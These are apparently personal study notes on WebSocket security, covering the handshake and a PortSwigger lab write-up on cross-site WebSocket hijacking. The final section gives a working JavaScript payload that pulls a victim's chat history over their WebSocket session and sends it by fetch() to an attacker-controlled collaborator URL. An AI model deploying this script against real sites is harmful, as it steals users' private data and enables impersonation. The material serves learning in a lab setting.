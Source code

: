 # WebSockets

Websockets is a communication protocol that provide a full-duplex (two-way) interactive communication session between the user's browser and a server. With this, we can send messages to a server and receive responses without having to poll the server for a reply.

This is commonly used in the 'chat' feature in websites, such as raising enquiries to a chatbot or customer service employee. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

## Websocket

This is how the connection is typically established:

<figure><img src="../.gitbook/assets/image (4000).png" alt=""><figcaption></figcaption></figure>

A WebSocket handshake request can be as follows:

```http
GET /chat HTTP/1.1
Host: example.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# Taken from HackTricks
```

The website's response can be as such:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
# Taken from HackTricks
```

When the protocols are switched, a channel is opened for bi-directional communications and would remain open until either side closes the channel and the connection terminates. This no longer uses the `http://` wrapper, and instead uses `ws://`.

Traffic sent through the socket can be manipulated using Burpsuite and payloads can be added. Depending on how the websocket application processes information, vulnerabilities like XSS, SQLI and Command Injection are all possible.

The most common attack however is **Cross-Site Websocket hijacking**, which involves exploitation of the cookie that is used to identify a user. Sometimes, these cookies could be tagged to each unique user, and stealing it allows for impersonation of another user and reading of sensitive information.

## Example

This is the lab I completed:

{% embed url="https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab" %}

In this lab, there is a chatbot that relates each user to his websocket session via a sent cookie. The chatbot then sends back the entire history of each session once the word 'READY' is sent to it via websockets.

We can manipulate this by sending a basic XSS script that would retrieve the information and send it to our own attack server, in this case BurpSuite Collaborator is used.

```markup
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Then, our Burpsuite host would receive a callback that would contain all the data from another user's session.